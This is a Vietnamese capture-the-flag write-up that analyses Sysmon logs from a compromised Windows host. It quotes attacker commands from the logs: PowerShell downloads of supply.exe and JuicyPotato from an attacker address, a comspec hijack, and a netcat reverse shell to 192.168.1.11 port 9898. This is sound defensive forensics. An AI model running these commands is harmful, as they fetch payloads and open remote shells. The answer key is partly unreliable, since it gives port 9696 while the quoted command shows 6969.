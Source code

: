 ## Description
> You are provided with Sysmon logs from a compromised endpoint. Analyse the logs to find out the steps and techniques used by the attacker.
## Link challenge
> https://blueteamlabs.online/home/challenge/log-analysis-sysmon-fabcb83517
## Solution
> ***What is the file that gave access to the attacker?***

- Đầu tiên ta xem xét qua tất cả các phần của file, thấy rằng nó có lưu các lệnh cmd.
- Theo dõi thì thấy có 1 lệnh cmd đáng ngờ.
```
      "CommandLine": "\"C:\\Windows\\SysWOW64\\mshta.exe\" \"C:\\Users\\IEUser\\Downloads\\updater.hta\" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5} "

    "C:\Windows\SysWOW64\mshta.exe": Đây là đường dẫn đến chương trình Microsoft HTML Application Host (mshta.exe). Nó được sử dụng để chạy các tệp HTA, về cơ bản là các ứng dụng HTML có thể truy cập các tài nguyên hệ thống.
    "C:\Users\IEUser\Downloads\updater.hta": Đây là đường dẫn đến tệp HTA cụ thể được thực thi, có tên là "updater.hta" và nằm trong thư mục Downloads của người dùng IEUser. Cái tên "updater" gợi ý rằng tệp này có thể liên quan đến việc cập nhật một chương trình nào đó.
    {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}: Đây là hai chuỗi giống hệt nhau, có thể là GUID (Globally Unique Identifiers) hoặc một dạng mã định danh khác. Mục đích chính xác của chúng trong lệnh này không rõ ràng, nhưng chúng có thể được sử dụng để truyền thông tin đến ứng dụng HTA hoặc liên kết nó với một quy trình cụ thể.
```

> A : updater.hta

> ***What is the powershell cmdlet used to download the malware file and what is the port?***

- Tiếp tục tìm với command ta dễ dàng bắt gặp 1 lệnh như thế này 
``` "CommandLine": "powershell  -c INvoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\\Windows\\Temp\\supply.exe"```
- Bắt đầu lệnh powershell tạo 1 kết nối tới web thông qua `-c INvoke-WebRequest` và tải xuống tệp `http://192.168.1.11:6969/supply.exe` và lưu tại `C:\\Windows\\Temp\\supply.exe`
> A : INvoke-WebRequest, 9696

> ***What is the name of the environment variable set by the attacker?***
- Tiếp tục với dòng command bên dưới `"CommandLine": "cmd  \\c set comspec=C:\\windows\\temp\\supply.exe"`
- `set comspec` : tạo 1 biến môi trường cho `C:\\windows\\temp\\supply.exe`
> A : comspec=C:\\windows\\temp\\supply.exe

> ***What is the process used as a LOLBIN to execute malicious commands?***

- Đầu tiên, lolbin là gì ?
```
LOLBin là một kỹ thuật mà tin tặc sử dụng để thực hiện các cuộc tấn công vào hệ thống bằng cách sử dụng các chương trình (tệp thực thi hoặc tệp nhị phân) đã được cài đặt trên hệ thống đó. Các chương trình này không độc hại nên được quản trị viên hệ thống hoặc người dùng nâng cao tin cậy.

Tin tặc thực hiện các hành động độc hại mà không gây nghi ngờ bằng cách lợi dụng các chương trình đáng tin cậy này. Điều này cho phép chúng vượt qua các biện pháp bảo mật được thiết kế để phát hiện và ngăn chặn phần mềm độc hại — vì tin tặc không cần đưa phần mềm hoặc công cụ bổ sung vào hệ thống của nạn nhân.
```
- Trong quá trình đặt biến môi trường có 1 process thực thi cùng đó là ftp.exe
```
  "Image": "C:\\Windows\\SysWOW64\\ftp.exe",
      "IntegrityLevel": "Medium",
      "LogonGuid": "747F3D96-DE82-6094-7713-0F0000000000",
      "LogonId": "0xf1377",
      "OriginalFileName": "ftp.exe",
      "ParentCommandLine": "cmd  \\c set comspec=C:\\windows\\temp\\supply.exe",
      "ParentImage": "C:\\Windows\\SysWOW64\\cmd.exe",
      "ParentProcessGuid": "747F3D96-3099-6095-D204-000000001D00",
      "ParentProcessId": 6844,
      "ProcessGuid": "747F3D96-310F-6095-DB04-000000001D00",
      "ProcessId": 6120,
      "Product": "Microsoft
```
> A : ftp.exe

> ***Malware then downloads a new file, find out the full url of the file download***
- Tại câu hỏi đầu tiên hacker thực thi lệnh và tải về file tại `"CommandLine": "C:\\windows\\temp\\supply.exe /c \"powershell -c INvoke-WebRequest -Uri https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -OutFile C:\\Windows\\Temp\\juice.exe\"\n",`
> A : https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

> ***What is the port the attacker attempts to get reverse shell?***
- Sau khi tải xuống hacker tạo reverse shell  bằng netcat tại 192.168.1.11 và port 9898 `"CommandLine": "C:\\windows\\temp\\supply.exe /c \"juicy.exe -l 9999 -p nc.exe -a \"192.168.1.11 9898 -e cmd.exe\" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}\"\n",`

> ***Malware executed multiple same commands at a time, what is the first command executed?***
> ***Looking at the dependency events around the malware, can you able to figure out the language, the malware is written***
=> Chưa hoàn thành





